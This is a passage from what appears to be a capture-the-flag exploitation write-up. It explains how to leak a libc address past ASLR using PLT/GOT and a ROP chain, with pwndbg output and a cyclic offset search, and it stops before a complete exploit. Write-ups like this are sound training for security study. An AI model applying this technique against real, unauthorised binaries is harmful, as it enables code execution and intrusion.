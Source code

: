 We want to call functions straight from the libc library and build our own exploit.

libc by default has **ASLR** enabled, which means the functions will always run at a different address. (This is to prevent attackers from easily accessing libc functions and running malicious code).

Instead, what we can do is to leak the address of the function on runtime.

To do that, we need to understand what **PLT** and **GOT** is.

https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html

tldr; 
PLT is used to call functions that do not have addresses until runtime.
GOT contains address of dynamically-linked functions (libc address).

What we can do is to leak a function's address by accomplishing the following:

```sh
// can also use other func that takes input
// function can be any that is used in the binary
puts@plt(function@GOT)
```

Let's check for PLT of `puts`:

```sh
pwndbg> plt
Section .plt 0x400480-0x4004c0:
0x400490: puts@plt
0x4004a0: memset@plt
0x4004b0: __isoc99_scanf@plt
```

To find the GOT of any function, we need to run the binary first:

```sh
pwndbg> got
...
GOT protection: Partial RELRO | Found 3 GOT entries passing the filter
[0x601018] puts@GLIBC_2.2.5 -> 0x400496 (puts@plt+6) ◂— push 0 /* 'h' */
[0x601020] memset@GLIBC_2.2.5 -> 0x4004a6 (memset@plt+6) ◂— push 1
[0x601028] __isoc99_scanf@GLIBC_2.7 -> 0x4004b6 (__isoc99_scanf@plt+6) ◂— push 2
```

Essentially, we can use any of the following, but for this example, we will use puts@got.

#### How to leak libc address
We are going to build our ROPchain to leak the address. It would look something like this.

`padding + pop_rdi + puts@got + puts@plt + return to main`

Why return to `main`? This is because we need the program to continue running to show the leaked address.

#### Calculate offset
BOF & get the offset:
```sh
pwndbg> cyclic -l jaaaaaaa
Finding cyclic pattern of 8 bytes: b'jaaaaaaa' (hex: 0x6a61616161616161)
Found at offset 72
```
